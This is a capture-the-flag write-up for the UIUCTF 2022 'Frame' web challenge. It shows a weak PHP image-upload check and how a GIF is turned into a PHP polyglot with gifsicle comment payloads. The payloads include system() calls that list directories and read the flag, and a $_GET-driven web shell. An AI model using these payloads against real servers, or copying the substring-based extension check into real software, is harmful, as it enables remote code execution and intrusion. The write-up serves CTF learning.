 # UIUCTF 2022 (web)

## Frame

### [source](https://github.com/GiongfNef/ChallFile/blob/main/UIUCTF2022/frame/handout.tar)

![chall](<../.gitbook/assets/image (6) (3).png>)

### Analysis

```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
          if (isset($_POST["submit"])) {
            $allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
            $filename = $_FILES["fileToUpload"]["name"];
            $tmpname = $_FILES["fileToUpload"]["tmp_name"];
            $target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

            $has_extension = false;
            foreach ($allowed_extensions as $extension) {
              if (strpos(strtolower($filename), $extension) !== false) {
                $has_extension = true;
              }
            }
            
            if ($_FILES["fileToUpload"]["size"] < 2000000) {
              if (getimagesize($tmpname) && $has_extension) {
                if (move_uploaded_file($tmpname, $target_file)) {     
                  echo "<div id='frame'><img src='$target_file' alt='Your image failed to load :(' id='submission'></div>";
                } else {
                  echo "There was an error uploading your file. Please contact an admin.";
                }
              } else {
                echo "Your picture is not a picture and could not be framed.";
              }
            } else {
              echo "Your picture is too large for us to process.";
            }
          }
        ?>
```

* know that: $allowed\_extensions = array(".jpg", ".jpeg", ".png", ".gif"); -> we can use ".gif" extension file. Finding around and i got [<mark style="color:blue;">`this doc`</mark>](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)<mark style="color:blue;">``</mark>
* We can use `gifsicle`  to embedd PHP code that runs the Linux command into a malicious image named output.php.gif.

### Exploit

#### First way

* Firstly, we convert png file that we received from chall to gif file
* I have tried change file extension from png to gif but it doesn't work, of course.

![](<../.gitbook/assets/image (3) (3).png>)

* I convert by [online tool](https://cloudconvert.com/png-to-gif) and ... that works. After we that just use this command:

```
gifsicle < frame-1.gif --comment "<?php system('id'); ?>" > output.php.gif
```

* Upload the output gif to server:

![the path of our requesting](<../.gitbook/assets/image (9).png>)

Go to that path and get some interesting things:

![](<../.gitbook/assets/image (1) (2) (2).png>)

* It works, try other commands to rce :

```
gifsicle < frame-1.gif --comment "<?php system('ls /'); ?>" > output.php.gif
```

![Here yah gooooo](<../.gitbook/assets/image (4) (3).png>)

* Now just use rce command and got the flag:

```
gifsicle < frame-1.gif --comment "<?php system('cd / && cat flag'); ?>" > output.php.gif
```

![](<../.gitbook/assets/image (2) (1).png>)

flag in some confusing thing like this:

![](<../.gitbook/assets/image (1) (1) (2).png>)

#### Firstway but easier \~

```
gifsicle < frame-1.gif --comment '<?php echo system($_GET["command"]); ?>' > output.php.gif
```

Now we can rce ez by web shell

> /uploads/c654036b5974c786-output.php.gif?command=ls%20-a

![](<../.gitbook/assets/image (1) (1) (3).png>)



Thanks for reading. Have a good day :heart: !
